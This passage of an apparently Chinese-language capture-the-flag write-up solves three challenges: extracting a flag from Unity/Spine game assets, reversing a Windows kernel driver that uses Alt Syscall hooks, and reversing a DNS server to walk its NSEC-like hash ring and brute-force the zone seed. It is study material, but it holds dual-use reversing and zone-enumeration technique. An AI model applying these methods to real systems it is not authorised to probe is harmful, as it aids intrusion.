        data.image.save(out / f"{data.name or obj.path_id}.png")

    if obj.type.name == "TextAsset":
        raw = data.m_Script
        if isinstance(raw, str):
            raw = raw.encode()
        (out / f"{data.m_Name}.txt").write_bytes(raw)
```

4. 抽出後得到幾個重要檔案，其中 `character.png` 是 1024x512 的角色 texture atlas。直接看圖可以看到一些被打散的白色文字，包含 `AIS3{`、`d0n7_70`、`uch_my_` 等片段。

```text
character.png
character.txt
character.atlas.txt
```

5.  `character.txt` 是 Spine skeleton JSON，裡面有一段很可疑的 animation 如下。這表示 `emote_a` 會把 `b013` 到 `b025` 這些 bone 水平移動。這些 bone 對應的 slot/attachment 剛好就是藏字的 region。

```json
"emote_a": {
  "bones": {
    "b013": {
      "translate": [
        {"time": 0.0, "x": 0, "y": 0},
        {"time": 0.25, "x": 0, "y": 0},
        {"time": 0.75, "x": -415.5, "y": 0},
        {"time": 1.0, "x": 0, "y": 0}
      ]
    },
    ...
  }
}
```

6. 撰寫腳本來解析 `character.txt`：

```python
import json
from pathlib import Path

j = json.loads(Path("/tmp/ais3_cloak/extracted/character.txt").read_text())
attachments = j["skins"][0]["attachments"]
slots = {s["bone"]: s["name"] for s in j["slots"]}
emote = j["animations"]["emote_a"]["bones"]

items = []
for bone, anim in emote.items():
    x = [k["x"] for k in anim["translate"] if k["time"] == 0.75][0]
    slot = slots[bone]
    path = attachments[slot][slot]["path"]
    items.append((x, bone, slot, path))

for item in sorted(items):
    print(item)
    
# (-415.5, 'b013', 's013', 'r037')
# (-281.5, 'b014', 's014', 'r017')
# (-128.0, 'b015', 's015', 'r016')
# (35.5, 'b016', 's016', 'r034')
# (141.5, 'b017', 's017', 'r047')
# (180.5, 'b018', 's018', 'r031')
# (219.5, 'b019', 's019', 'r050')
# (258.5, 'b020', 's020', 'r032')
# (297.5, 'b021', 's021', 'r022')
# (336.5, 'b022', 's022', 'r039')
# (375.5, 'b023', 's023', 'r058')
# (414.5, 'b024', 's024', 'r043')
# (453.5, 'b025', 's025', 'r042')
```

7. `character.atlas.txt` 記錄每個 region 在 texture atlas 裡的位置。例如：

```text
r037
  xy: 278, 392
  size: 107, 36

r017
  xy: 318, 168
  size: 145, 41

r016
  xy: 168, 168
  size: 146, 41
```

8. 把上面 `emote_a` 排序後的 region 逐一從 atlas 中裁出來，拼起來就是 flag

```python
r037 -> AIS3{
r017 -> d0n7_70
r016 -> uch_my_
r034 -> c4p3_0k_
r047 -> b
r031 -> 3
r050 -> f
r032 -> 1
r022 -> e
r039 -> 7
r058 -> 6
r043 -> 8
r042 -> }

# AIS3{d0n7_70uch_my_c4p3_0k_b3f1e768}
```

# ALT + F4

- Tags：`Reverse`
- `alt+f4.sys` 是 Windows x64 kernel driver
- 觀察 PDB 路徑資訊 `C:\Users\sf\source\repos\PreExam\Alt-Syscall-Hook\KD_test\x64\Release\KD_test.pdb` 可以想到是出題者的這個[專案](https://github.com/ShallowFeather/Alt-Syscall-Hook/tree/master)，和 Windows 11 的 Alt Syscall Provider / Alt Syscall Hook 機制有關

1. 從 README.md 說明它參考 Windows 11 Alt Syscall 機制實作 syscall hook。PDB path 的 `KD_test`、device name、IOCTL flow、`EPROCESS + 0x7d0` 等細節都和 challenge binary 對得上，所以可以確定題目是在考這個機制，這樣方向就比較明確一點。
2. 傳統 syscall hook 常會想到 SSDT，但這題用的是 Windows 11 的 Alt Syscall Provider。簡化來說：
	1. Kernel 裡有一張 service descriptor group table。
	2. Process 的 `EPROCESS` 中有一個 syscall provider dispatch context。
	3. Driver 可以建立自己的 dispatch table，讓某個 process 的 syscall trap 進入自訂 callback。
	4. Callback 回傳 `1` 代表放行原 syscall，回傳 `0` 代表不執行原 syscall。
3. 另外，Alt Syscall 只攔截 target process 自己 thread 發出的 syscall。也就是說，driver 不是記錄全系統事件，而是記錄某個指定 PID 的 syscall sequence。
4. 字串大法可以看到 Driver 建立 device：`\Device\KDhook`、`\DosDevices\KDhook`，以及主要 IOCTL：

```text
0x80002000: send target PID, setup hook
0x80002004: clean/remove hook
0x80002008: generate flag/output
0x8000200c: reset recorded rows
0x80002010: query status
```

5. 核心流程是：
	1. usermode client 用 IOCTL 送 target PID。
	2. driver 找到 target process。
	3. driver 建立 alt syscall dispatch table。
	4. target process 發出特定 syscall 時，wrapper 記錄 row。
	5. 記錄滿或使用者查詢時，driver 把 row array 混成 flag。
6. 發現 `.data` 裡有 16 個 callback wrapper address：

```text
0x140001b30, 0x140001b50, 0x140001b70, 0x140001b90,
0x140001bb0, 0x140001bd0, 0x140001bf0, 0x140001c10,
0x140001c30, 0x140001c50, 0x140001d60, 0x140001d80,
0x140001da0, 0x140001dc0, 0x140001ee0, 0x140001f00
```

7. `.rdata` 裡對應的 syscall index：

```text
06, 0a, 0e, 0f, 18, 1e, 20, 26,
2c, 34, 48, 50, 53, 55, b2, be
```

8. 在 `0x140001020` 有 row recorder。它最多記錄 8 個 DWORD：

```text
row count: 0x140005100
rows:      0x140005110 ... 0x14000512c
```

9. 每次 wrapper 發現 syscall number 符合自己的編號，就呼叫 `record(row_value)`。它不去重複，同一 syscall 重複發生就會重複記錄。count 到 8 後停止追加。

10. 固定 row 如下，有兩個 row 和出題環境相關：
	- `NtDelayExecution (0x34)`：讀取 `KUSER_SHARED_DATA` + 0x260 的低 16 bit，也就是 Windows build number 相關值
	- `NtCreateFile (0x55)`：讀取 `KUSER_SHARED_DATA` + 0x2ec & 3，並混入 KdDebuggerNotPresent / KdDebuggerEnabled

```text
06 -> 0x7581ea5d
0a -> 0xdc92bba8
0e -> 0xee6001e9
0f -> 0x0b5682cc
18 -> 0xbc3f35bf
1e -> 0x3f8408b4
20 -> 0x1ece9efd
26 -> 0x8e01d014
2c -> 0x1d25d976
48 -> 0xeff354f6
50 -> 0x12b608c6
53 -> 0xc87fe10c
b2 -> 0xce3deab3
be -> 0x2f5cbfaa
```

11. `func_0x1400010b0` 是 flag 相關函數，其中要求 output buffer 至少 `0x24` bytes，最後寫出 35 bytes 加 NUL。一開始先把 8 筆 recorded row 混成 64-bit seed，接著做兩次 SHA-256，然後處理後輸出：

```python
h = row0 ^ 0x2b5a5
for row in rows[1:]:
    h = row ^ (h * 33)   # uint64 wraparound
# ...
d1 = SHA256(le64(h))
d2 = SHA256(d1)
# ...
out[0:16]   = d1[0:16]   ^ bytes.fromhex("0919196113fccfd8d93d730ad9669f66")
out[16:32]  = d1[16:32]  ^ bytes.fromhex("212c7cfc7a72fa8014f44cd2edb74f2d")
out[32]     = d2[0] ^ 0x6e
out[33]     = d2[1] ^ 0x21
out[34]     = d2[2] ^ 0xa2
out[35]     = 0
```

12. 一開始用舊版 syscall table 查 `0xb2` / `0xbe`，會得到舊 Windows 版本的名稱，例如 `NtCreateMailslotFile` 或 `NtCreateSectionEx`。在新版 Win11 上分別對應到 `NtCreateMutant` 和 `NtCreateSemaphore`。這個差異不影響 row value，因為 binary 比對的是 syscall number；但會影響我們根據 Win32 API 行為猜 sequence 的方向。

13. 還原完 row 和 flag function 後，剩下的未知數是：
	- 8 個 syscall number 的順序
	- Windows build number
	- `KUSER_SHARED_DATA + 0x2ec & 3`
	- `KdDebuggerNotPresent` / `KdDebuggerEnabled` 的值

14. 所以寫一支程式：
	1. 根據 build / debugger state 產生 `0x34` 和 `0x55` 的 row
	2. 枚舉 8 個 syscall sequence，允許重複
	3. 計算 seed、SHA-256 和輸出
	4. 用 `AIS3{` 前綴過濾 candidate

```cpp
#include <array>
#include <cstdint>
#include <cstdlib>
#include <cstring>
#include <iostream>
#include <string>
#include <omp.h>

static const uint32_t SHA_K[64] = {
    0x428a2f98,0x71374491,0xb5c0fbcf,0xe9b5dba5,0x3956c25b,0x59f111f1,0x923f82a4,0xab1c5ed5,
    0xd807aa98,0x12835b01,0x243185be,0x550c7dc3,0x72be5d74,0x80deb1fe,0x9bdc06a7,0xc19bf174,
    0xe49b69c1,0xefbe4786,0x0fc19dc6,0x240ca1cc,0x2de92c6f,0x4a7484aa,0x5cb0a9dc,0x76f988da,
    0x983e5152,0xa831c66d,0xb00327c8,0xbf597fc7,0xc6e00bf3,0xd5a79147,0x06ca6351,0x14292967,
    0x27b70a85,0x2e1b2138,0x4d2c6dfc,0x53380d13,0x650a7354,0x766a0abb,0x81c2c92e,0x92722c85,
    0xa2bfe8a1,0xa81a664b,0xc24b8b70,0xc76c51a3,0xd192e819,0xd6990624,0xf40e3585,0x106aa070,
    0x19a4c116,0x1e376c08,0x2748774c,0x34b0bcb5,0x391c0cb3,0x4ed8aa4a,0x5b9cca4f,0x682e6ff3,
    0x748f82ee,0x78a5636f,0x84c87814,0x8cc70208,0x90befffa,0xa4506ceb,0xbef9a3f7,0xc67178f2
};

static void sha256_block(const uint32_t in[16], uint32_t out[8]) {
    uint32_t w[64];
    for (int i = 0; i < 16; ++i) w[i] = in[i];
    for (int i = 16; i < 64; ++i) w[i] = ssig1(w[i - 2]) + w[i - 7] + ssig0(w[i - 15]) + w[i - 16];

    uint32_t a = 0x6a09e667, b = 0xbb67ae85, c = 0x3c6ef372, d = 0xa54ff53a;
    uint32_t e = 0x510e527f, f = 0x9b05688c, g = 0x1f83d9ab, h = 0x5be0cd19;
    for (int i = 0; i < 64; ++i) {
        uint32_t t1 = h + bsig1(e) + ch(e, f, g) + SHA_K[i] + w[i];
        uint32_t t2 = bsig0(a) + maj(a, b, c);
        h = g; g = f; f = e; e = d + t1;
        d = c; c = b; b = a; a = t1 + t2;
    }
    out[0] = a + 0x6a09e667; out[1] = b + 0xbb67ae85;
    out[2] = c + 0x3c6ef372; out[3] = d + 0xa54ff53a;
    out[4] = e + 0x510e527f; out[5] = f + 0x9b05688c;
    out[6] = g + 0x1f83d9ab; out[7] = h + 0x5be0cd19;
}

static void sha256_u64_le(uint64_t value, uint32_t out[8]) {
    uint32_t block[16] = {};
    block[0] = bswap32(uint32_t(value));
    block[1] = bswap32(uint32_t(value >> 32));
    block[2] = 0x80000000;
    block[15] = 64;
    sha256_block(block, out);
}

static void sha256_digest32(const uint32_t digest_words[8], uint32_t out[8]) {
    uint32_t block[16] = {};
    for (int i = 0; i < 8; ++i) block[i] = digest_words[i];
    block[8] = 0x80000000;
    block[15] = 256;
    sha256_block(block, out);
}

static uint32_t delay_row(uint32_t build) {
    uint32_t ecx = build & 0xffff;
    uint64_t prod = uint64_t(0x51EB851F) * ecx;
    uint32_t edx = prod >> 32;
    uint32_t r8 = ecx ^ 0x031B21FD;
    uint32_t r9 = (edx >> 5) ^ 0x63;
    r8 = ror32(r8, 0x19);
    r9 += r8;
    r9 ^= 0x2E879FD1;
    r9 = rol32(r9, 3);
    r8 = r9 ^ 0x3F75D28F;
    uint8_t cl = (uint8_t(r9) ^ 0xFA) & 0x1f;
    r8 = rol32(r8, cl);
    uint32_t eax = ror32(r8 ^ 0xA5366B4D, 8) ^ 0xFF146EF3;
    cl = (uint8_t(r8 >> 27) ^ 0xF2) & 0x1f;
    eax = rol32(eax, cl);
    uint32_t r10 = eax - 0x61C88647;
    cl = (uint8_t(eax) ^ 0xF4) & 0x1f;
    r10 = rol32(r10, cl);
    r10 ^= r8;
    uint32_t ecx2 = r10 ^ 0xBB67AE85;
    uint32_t r8b = ror32(ecx2 ^ 0xA5366B4D, 6) ^ 0x7425EC73;
    cl = uint8_t(ecx2 >> 27);
    if (cl != 0x0c) r8b = rol32(r8b, (cl ^ 0x0c) & 0x1f);
    uint32_t out = ror32(r8b, 0x13) ^ ror32(eax, 0x19) ^ r9 ^ r10;
    uint8_t low = (uint8_t(uint8_t(r9) + uint8_t(r8b)) ^ 0x03) & 0x1f;
    out ^= 0xA6D83FBA;
    out -= 0x44192F77;
    return rol32(out, low);
}

static uint32_t create_row(uint32_t low2, bool kd_not_present, bool kd_enabled) {
    uint32_t r8 = (low2 & 3) ^ 0x558868A9;
    r8 = rol32(r8, 4);
    uint32_t r9 = r8 ^ 0x77F9537B;
    uint8_t cl = (uint8_t(r8) ^ 0x0E) & 0x1f;
    r9 = rol32(r9, cl);
    uint32_t edx = kd_not_present ? 0x3CDDD7FE : 0x3CDDD7FA;
    uint32_t eax = ror32(r9 + 0x27D4EB2D, 0x1B);
    edx ^= eax;
    cl = (uint8_t(r9 >> 27) ^ 0xF1) & 0x1f;
    edx = rol32(edx, cl);
    uint32_t r10 = edx - 0x61C88647;
    cl = (uint8_t(edx) ^ 0xF5) & 0x1f;
    r10 = rol32(r10, cl);
    r10 ^= r9;
    uint32_t ecx = r10 ^ 0xBB67AE85;
    uint32_t r9b = ror32(ecx + 0x7F4A7C15, 0x1A) ^ (kd_enabled ? 0xDEEC38FA : 0xDEEC38F2);
    cl = (uint8_t(ecx >> 27) ^ 0xF3) & 0x1f;
    r9b = rol32(r9b, cl);
    eax = ror32(r9b, 0x13) ^ ror32(edx, 0x19) ^ r8 ^ r10;
    uint8_t low = (uint8_t(uint8_t(r8) + uint8_t(r9b)) ^ 0xFC) & 0x1f;
    eax ^= 0xEE54BE4E;
    eax += 0x0140F0DC;
    return rol32(eax, low);
}

static std::string flag_for(const std::array<uint32_t, 8>& seq) {
    uint64_t h = uint64_t(seq[0] ^ 0x2B5A5);
    for (int i = 1; i < 8; ++i) h = uint64_t(seq[i]) ^ (h * 33ULL);

    uint32_t d1[8], d2[8];
    sha256_u64_le(h, d1);
    sha256_digest32(d1, d2);

    static const unsigned char k1[16] = {0x09,0x19,0x19,0x61,0x13,0xfc,0xcf,0xd8,0xd9,0x3d,0x73,0x0a,0xd9,0x66,0x9f,0x66};
    static const unsigned char k2[16] = {0x21,0x2c,0x7c,0xfc,0x7a,0x72,0xfa,0x80,0x14,0xf4,0x4c,0xd2,0xed,0xb7,0x4f,0x2d};
    unsigned char d1b[32], d2b[32];
    for (int i = 0; i < 8; ++i) {
        d1b[i * 4 + 0] = uint8_t(d1[i] >> 24);
        d1b[i * 4 + 1] = uint8_t(d1[i] >> 16);
        d1b[i * 4 + 2] = uint8_t(d1[i] >> 8);
        d1b[i * 4 + 3] = uint8_t(d1[i]);
        d2b[i * 4 + 0] = uint8_t(d2[i] >> 24);
        d2b[i * 4 + 1] = uint8_t(d2[i] >> 16);
        d2b[i * 4 + 2] = uint8_t(d2[i] >> 8);
        d2b[i * 4 + 3] = uint8_t(d2[i]);
    }
    char out[36];
    for (int i = 0; i < 16; ++i) out[i] = char(d1b[i] ^ k1[i]);
    for (int i = 0; i < 16; ++i) out[16 + i] = char(d1b[16 + i] ^ k2[i]);
    out[32] = char(d2b[0] ^ 0x6e);
    out[33] = char(d2b[1] ^ 0x21);
    out[34] = char(d2b[2] ^ 0xa2);
    out[35] = 0;
    return std::string(out, out + 35);
}

static uint64_t seed_for(const std::array<uint32_t, 8>& seq) {
    uint64_t h = uint64_t(seq[0] ^ 0x2B5A5);
    for (int i = 1; i < 8; ++i) h = uint64_t(seq[i]) ^ (h * 33ULL);
    return h;
}

static void search_env(uint32_t build, uint32_t low2, bool np, bool en) {
    std::array<uint32_t, 16> rows = {
        0x7581EA5D,0xDC92BBA8,0xEE6001E9,0x0B5682CC,0xBC3F35BF,0x3F8408B4,0x1ECE9EFD,0x8E01D014,
        0x1D25D976,delay_row(build),0xEFF354F6,0x12B608C6,0xC87FE10C,create_row(low2, np, en),0xCE3DEAB3,0x2F5CBFAA
    };
    const char* names[16] = {"06","0a","0e","0f","18","1e","20","26","2c","34","48","50","53","55","b2","be"};
    constexpr uint32_t target = (uint32_t('A' ^ 0x09) << 24) |
                                (uint32_t('I' ^ 0x19) << 16) |
                                (uint32_t('S' ^ 0x19) << 8) |
                                uint32_t('3' ^ 0x61);

    for (int len = 0; len < 8; ++len) {
        uint64_t total = 1;
        for (int i = 0; i < len; ++i) total *= 16;
        #pragma omp parallel for schedule(static)
        for (int64_t sn = 0; sn < int64_t(total); ++sn) {
            uint64_t x = uint64_t(sn);
            std::array<uint32_t, 8> seq{};
            int idx[8]{};
            for (int i = 0; i < len; ++i) {
                idx[i] = x & 15;
                seq[i] = rows[idx[i]];
                x >>= 4;
            }
            uint32_t d1[8];
            sha256_u64_le(seed_for(seq), d1);
            if (d1[0] == target && uint8_t(d1[1] >> 24) == uint8_t('{' ^ 0x13)) {
                std::string f = flag_for(seq);
                #pragma omp critical
                {
                std::cout << "build=" << build << " low2=" << low2 << " kd_not_present=" << np
                          << " kd_enabled=" << en << " len=" << len << " seq=";
                for (int i = 0; i < len; ++i) std::cout << names[idx[i]] << (i == len - 1 ? "" : ",");
                std::cout << " flag=" << f << "\n";
                }
            }
        }
    }

    #pragma omp parallel for schedule(static)
    for (int64_t sn = 0; sn < (int64_t(1) << 32); ++sn) {
        uint64_t n = uint64_t(sn);
        uint64_t x = n;
        std::array<uint32_t, 8> seq{};
        int idx[8]{};
        for (int i = 0; i < 8; ++i) {
            idx[i] = x & 15;
            seq[i] = rows[idx[i]];
            x >>= 4;
        }
        uint32_t d1[8];
        sha256_u64_le(seed_for(seq), d1);
        if (d1[0] == target && uint8_t(d1[1] >> 24) == uint8_t('{' ^ 0x13)) {
            std::string f = flag_for(seq);
            #pragma omp critical
            {
            std::cout << "build=" << build << " low2=" << low2 << " kd_not_present=" << np
                      << " kd_enabled=" << en << " seq=";
            for (int i = 0; i < 8; ++i) std::cout << names[idx[i]] << (i == 7 ? "" : ",");
            std::cout << " flag=" << f << "\n";
            }
        }
    }
    std::cerr << "done build=" << build << " low2=" << low2 << " kd_not_present=" << np << " kd_enabled=" << en << "\n";
}

int main(int argc, char** argv) {
    if (argc != 2 && argc != 5) {
        std::cerr << "usage: " << argv[0] << " <build> [<shared_low2> <kd_not_present> <kd_enabled>]\n";
        return 2;
    }
    uint32_t build = std::strtoul(argv[1], nullptr, 0);
    if (argc == 5) {
        search_env(build, std::strtoul(argv[2], nullptr, 0),
                   std::strtoul(argv[3], nullptr, 0) != 0,
                   std::strtoul(argv[4], nullptr, 0) != 0);
        return 0;
    }
    for (uint32_t low2 = 0; low2 < 4; ++low2) {
        for (int np = 0; np < 2; ++np) {
            for (int en = 0; en < 2; ++en) {
                search_env(build, low2, np, en);
            }
        }
    }
}

// 26100 / KdDebuggerNotPresent=1 / KdDebuggerEnabled=0,1 / shared_low2=0..3: no hit
// 26200 / KdDebuggerNotPresent=1 / KdDebuggerEnabled=0 / shared_low2=0..3: no hit
```

15. 接著掃 `KdDebuggerNotPresent=0` 分支，這代表 kernel debugger present 的狀態，對應 challenge 可能是在 KDU/kernel debugging 環境下測出來的：

```sh
$ env OMP_NUM_THREADS=4 ./alt_bruteforce 26200 0 0 1
build=26200 low2=0 kd_not_present=0 kd_enabled=1 seq=48,34,b2,0e,be,20,55,1e flag=AIS3{S4dt_H00k_9reAt_bY_ALTsyscall}

# KdDebuggerNotPresent = 0
# KdDebuggerEnabled = 1
# sequence = 48,34,b2,0e,be,20,55,1e
```

## DG Server (Rev)

- Tags：`Reverse`
- 題目提供兩個檔案：
	- `dg-server`: stripped, statically linked x86-64 ELF.
	- `scripts/dg-verify.py`: verifier script provided by the challenge.
- 給定指令`python3 dg-verify.py @chals1.ais3.org:53573 www.curious.sleeping A`，表示讓 chals DNS 查詢 sleeping 的 A record

1. verifier 會發 DoH-like 請求到 `/dns-query?name=<name>&type=<type>`，並且會驗證一條 DNSSEC-like 的 Ed25519 信任鏈：

```text
. -> sleeping. -> curious.sleeping.
```

2. 跑原本指令只會得到正常 A record：

```bash
python3 scripts/dg-verify.py @chals1.ais3.org:53573 www.curious.sleeping A

OK www.curious.sleeping. A 67.67.67.67
```

3. 雖然 `dg-verify.py` 限制最後只能查 `A`、`NS`、`MX`，但 server 本身支援更多 type。因此可以直接用 `curl` 戳，已知 `curious.sleeping.` zone 內可以查到：

```bash
curl 'http://chals1.ais3.org:53573/dns-query?name=curious.sleeping&type=TXT'

curious.sleeping. TXT "v=spf1 mx -all"
curious.sleeping. NS ns1.curious.sleeping.
curious.sleeping. MX 10 mail.curious.sleeping.
www.curious.sleeping. A 67.67.67.67
mail.curious.sleeping. A 13.37.73.31
ns1.curious.sleeping. A 13.37.73.31
_dmarc.curious.sleeping. TXT "v=DMARC1; p=none; rua=mailto:hostmaster@curious.sleeping"
status.curious.sleeping. TXT "service=ok; region=moon"
```

4. 在 server 的 denial-of-existence record 有 NSEC6，當查詢不存在的名稱時，server 會回覆以下內容。這很像 DNSSEC 的 NSEC/NSEC3：每個 existing owner name 會對應到一個 hash，`NSEC6` record 會指出 hash ring 上下一個 hash 和該 owner 擁有哪些 RR type。多查幾個不存在名稱後可以走完整個 ring。

```sh
NXDOMAIN <name> authoritative-zone=curious.sleeping.
<hash>.curious.sleeping. NSEC6 2e 426 0009 73311337 <next-hash> <types...>

# curious.sleeping.的 NSEC6 ring
H46HSBFKHOSNE78MEU8JB18JA7N4IUGI
  -> H46HSBFKHOSNE79276V7EUQ3RFHKIUGI
  types: NS TXT SOA DNSKEY MX RRSIG NSEC6

H46HSBFKHOSNE79289JNUUQ3RFHKIUGI
  -> H46HSBFKHOSNE792DA5FGUQ3RFHKIUGI
  types: A RRSIG NSEC6

H46HSBFKHOSNE792DA5FGUQ3RFHKIUGI
  -> H46HSBFKHOSNE792RC9U2UQ3RFHKIUGI
  types: A RRSIG NSEC6

H46HSBFKHOSNE792RC9U2UQ3RFHKIUGI
  -> H46HSBFKHOSNE79FQM2ND3Q3RFHKIUGI
  types: A RRSIG NSEC6

H46HSBFKHOSNE79FQM2ND3Q3RFHKIUGI
  -> H46HSBFKHOSNE7FP2CD05BFU13HKIUGI
  types: A RRSIG NSEC6

H46HSBFKHOSNE7FP2CD05BFU13HKIUGI
  -> H46HSBFKHOSNE7FP4U5AT4KL73HKIUGI
  types: TXT RRSIG NSEC6

H46HSBFKHOSNE7FP4U5AT4KL73HKIUGI
  -> S6NPJID2K4SNE7AB754D34I8IK3E8TKJ
  types: TXT RRSIG NSEC6

S6NPJID2K4SNE7AB754D34I8IK3E8TKJ
  -> H46HSBFKHOSNE78MEU8JB18JA7N4IUGI
  types: TXT RRSIG NSEC6
```

5. 已知 name 和 hash 的對應可以用「對 existing name 查 `type=NSEC6`」確認。server 會回該 name 自己的 NSEC6 owner 作為 NODATA proof。所以剩下最可疑的 TXT-only owner hash 是 `S6NPJID2K4SNE7AB754D34I8IK3E8TKJ`，如果能把這個 hash 反推出原始 label，也許就能查到 hidden TXT record。

```text
curious.sleeping.        -> H46HSBFKHOSNE78MEU8JB18JA7N4IUGI
www.curious.sleeping.    -> H46HSBFKHOSNE792RC9U2UQ3RFHKIUGI
mail.curious.sleeping.   -> H46HSBFKHOSNE79FQM2ND3Q3RFHKIUGI
ns1.curious.sleeping.    -> H46HSBFKHOSNE79289JNUUQ3RFHKIUGI
_dmarc.curious.sleeping. -> H46HSBFKHOSNE7FP2CD05BFU13HKIUGI
status.curious.sleeping. -> H46HSBFKHOSNE7FP4U5AT4KL73HKIUGI
```

6. 首先 decompile `dg-server`，用 IDA Pro MCP 分析發現 NSEC6 主要邏輯在以下幾個函數：

```sh
0x402dc1  32-bit rolling hash helper
0x402ec9  lowercase/canonicalize DNS name
0x40532f  first-label-to-20-byte buffer
0x405626  per-name 20-byte hash, uses zone_buf[20:40]
0x405756  9-round byte mixer, uses zone_buf[20:40]
0x40588c  big-endian 20-byte addition
0x405909  base32hex encoder
0x405a23  full NSEC6 owner hash pipeline

# pipeline
canonicalize name
extract first label into 20-byte label buffer
h1 = per-name 20-byte hash using zone_buf[20:40]
ored = h1 | zone_buf[0:20]
pre = label_buffer + ored       # 20-byte big-endian add
out = final_mix(pre)            # 9 rounds
base32hex(out)
```

`zone_buf` 是每個 zone 的 40-byte 狀態：

```text
zone_buf[0:20]   used as OR mask
zone_buf[20:40]  used by h1 and final_mix
```

8. 逆向 `0x4053ef` 後發現 `zone_buf[20:40]` 不是任意 20 bytes，而是由一個 32-bit state 展開：

```c
for i in 0..19:
    state ^= i * 0x10101 - 0x5a5a5a5b
    state *= 0x7feb352d
    state = rol32(state, 11)
    zone_buf[20+i] = (state >> ((i & 3) * 8)) & 0xff
```

9. 因此枚舉 32-bit seed，對每個 seed 用已知 `(name, hash)` 檢查是否存在同一組 `zone_buf[0:20]` OR mask：

```c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#ifndef START
#define START 0u
#endif

#ifndef END
#define END 0xffffffffu
#endif

# gcc -O3 nsec6_seed_crack.c -o /tmp/nsec6_seed_crack

static const char *alphabet = "0123456789ABCDEFGHIJKLMNOPQRSTUV";

struct pair {
    const char *name;
    const char *digest;
};

static const struct pair known[] = {
    {"curious.sleeping.", "H46HSBFKHOSNE78MEU8JB18JA7N4IUGI"},
    {"www.curious.sleeping.", "H46HSBFKHOSNE792RC9U2UQ3RFHKIUGI"},
    {"mail.curious.sleeping.", "H46HSBFKHOSNE79FQM2ND3Q3RFHKIUGI"},
    {"ns1.curious.sleeping.", "H46HSBFKHOSNE79289JNUUQ3RFHKIUGI"},
    {"_dmarc.curious.sleeping.", "H46HSBFKHOSNE7FP2CD05BFU13HKIUGI"},
    {"status.curious.sleeping.", "H46HSBFKHOSNE7FP4U5AT4KL73HKIUGI"},
};

static uint32_t rol32(uint32_t x, unsigned n) {
    return (x << n) | (x >> (32 - n));
}

static int b32val(char c) {
    const char *p = strchr(alphabet, c);
    return p ? (int)(p - alphabet) : -1;
}

static void b32hex_decode(const char *s, uint8_t out[20]) {
    unsigned acc = 0;
    unsigned bits = 0;
    unsigned pos = 0;
    memset(out, 0, 20);
    for (unsigned i = 0; s[i] && pos < 20; i++) {
        acc = (acc << 5) | (unsigned)b32val(s[i]);
        bits += 5;
        while (bits >= 8 && pos < 20) {
            bits -= 8;
            out[pos++] = (uint8_t)((acc >> bits) & 0xff);
        }
    }
}

static void labelwire(const char *name, uint8_t out[20]) {
    memset(out, 0, 20);
    if (strcmp(name, ".") == 0) {
        return;
    }
    unsigned n = 0;
    while (name[n] && name[n] != '.' && n < 19) {
        out[1 + n] = (uint8_t)name[n];
        n++;
    }
    out[0] = (uint8_t)n;
}

static void generated_s_key(uint32_t seed, uint8_t s[20]) {
    uint32_t state = seed;
    for (unsigned i = 0; i < 20; i++) {
        state ^= (uint32_t)(i * 0x10101u - 0x5a5a5a5bu);
        state *= 0x7feb352du;
        state = rol32(state, 11);
        s[i] = (uint8_t)(state >> ((i & 3) * 8));
    }
}

static void h1(const char *name, const uint8_t s[20], uint8_t out[20]) {
    unsigned char data[256];
    unsigned len = 0;
    for (; name[len] && len < sizeof(data) - 2; len++) {
        unsigned char c = (unsigned char)name[len];
        if (c >= 'A' && c <= 'Z') {
            c = (unsigned char)(c + 32);
        }
        data[len] = c;
    }
    if (len == 0 || data[len - 1] != '.') {
        data[len++] = '.';
    }

    uint32_t h = (uint32_t)(len > 20 ? data[20] : 0) ^ 0x365f6d69u;
    for (unsigned i = 0; i < len; i++) {
        unsigned c = data[i];
        h ^= c;
        h *= 0x045d9f3bu;
        h = rol32(h, 7);
        h += s[(c + i) % 20];
    }

    for (unsigned i = 0; i < 20; i++) {
        h ^= (uint32_t)(i - 0x61c88647u);
        h *= 0x7feb352du;
        h = rol32(h, 9);
        out[i] = (uint8_t)(h >> ((i & 3) * 8));
    }
}

static void inv_final_mix(const uint8_t target[20], const uint8_t s[20], uint8_t out[20]) {
    uint8_t b[20];
    memcpy(b, target, 20);
    for (int r = 8; r >= 0; r--) {
        uint8_t before[20];
        for (unsigned j = 0; j < 20; j++) {
            before[j] = (uint8_t)((b[j] - (uint8_t)(17 * r + j)) ^ s[(r + j) % 20]);
        }
        for (unsigned j = 0; j < 20; j++) {
            b[j] = before[(j + 1) % 20];
        }
    }
    memcpy(out, b, 20);
}

static void sub20(const uint8_t a[20], const uint8_t b[20], uint8_t out[20]) {
    unsigned borrow = 0;
    for (int i = 19; i >= 0; i--) {
        unsigned sub = (unsigned)b[i] + borrow;
        out[i] = (uint8_t)((unsigned)a[i] - sub);
        borrow = (a[i] < sub);
    }
}

static int check_seed(uint32_t seed, uint8_t f_value[20], uint8_t s[20]) {
    uint8_t f_known[20] = {0};
    memset(f_value, 0, 20);
    generated_s_key(seed, s);

    for (unsigned k = 0; k < sizeof(known) / sizeof(known[0]); k++) {
        uint8_t target[20], pre[20], label[20], ored[20], hv[20];
        b32hex_decode(known[k].digest, target);
        inv_final_mix(target, s, pre);
        labelwire(known[k].name, label);
        sub20(pre, label, ored);
        h1(known[k].name, s, hv);

        for (unsigned i = 0; i < 20; i++) {
            if ((hv[i] & (uint8_t)~ored[i]) != 0) {
                return 0;
            }
            uint8_t must = (uint8_t)(~hv[i]);
            uint8_t val = (uint8_t)(ored[i] & must);
            if (((f_value[i] ^ val) & f_known[i] & must) != 0) {
                return 0;
            }
            f_value[i] = (uint8_t)((f_value[i] & (uint8_t)~must) | val);
            f_known[i] |= must;
        }
    }
    return 1;
}

int main(int argc, char **argv) {
    uint32_t start = START;
    uint32_t end = END;
    if (argc >= 2) {
        start = (uint32_t)strtoul(argv[1], NULL, 0);
    }
    if (argc >= 3) {
        end = (uint32_t)strtoul(argv[2], NULL, 0);
    }

    uint8_t f[20], s[20];
    for (uint32_t seed = start;; seed++) {
        if (check_seed(seed, f, s)) {
            printf("seed=%08x\nF=", seed);
            for (unsigned i = 0; i < 20; i++) printf("%02x", f[i]);
            printf("\nS=");
            for (unsigned i = 0; i < 20; i++) printf("%02x", s[i]);
            printf("\n");
            return 0;
        }
        if (seed == end) {
            break;
        }
    }
    return 1;
}
```

10. 找到以下結果。其中 `S` 是 `zone_buf[20:40]`。`F` 是當時從已知 records 推出的 OR mask 已知 bits；加入 hidden record 後可確認實際用到的 mask 是：

```text
seed=912d5e43
F=fffffffdff7fffffdfffffffffffffffffffffff
S=7226efeef666f4e87fef3efc136c57f3ec92de2b

